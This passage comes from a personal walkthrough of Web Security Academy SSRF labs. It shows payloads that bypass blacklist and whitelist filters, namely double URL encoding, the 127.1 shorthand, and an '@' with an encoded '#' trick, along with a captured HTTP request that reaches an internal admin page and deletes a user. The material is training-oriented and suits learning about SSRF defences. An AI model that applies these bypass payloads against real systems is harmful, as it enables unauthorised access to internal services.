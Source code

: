 ```

stockApi=http://127.1/%2561%2564%256d%2569%256e/delete?username=carlos

```

Above I used the shorthand for 127.0.0.1 and double urlencoded the admin page as both "admin" and "127.0.0.1/localhost" were blacklisted.


## Lab: SSRF with whitelist-based input filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass. 

When modifying the request to try localhost I get the following response which indicates there may be some form of whitelisting:

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"
```

Playing around I found that the `@` symbol is accepted and produces the default stock results and adding a double url-encoded `#` produces a `not found` page.

However putting adding the `/admin` still produces an error but when changing the default path at the end instead of putting it after localhost you can gain access to `admin`.

Annoyingly I wasn't able to do this one without looking at the solution.

```

POST /product/stock HTTP/1.1
Host: 0adb001e049ecbbfc06fb3a400140096.web-security-academy.net
Cookie: session=gAU1wypL4SqH3R6hadpbuUv4unB8qSzM
Content-Length: 64
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0adb001e049ecbbfc06fb3a400140096.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adb001e049ecbbfc06fb3a400140096.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin

```
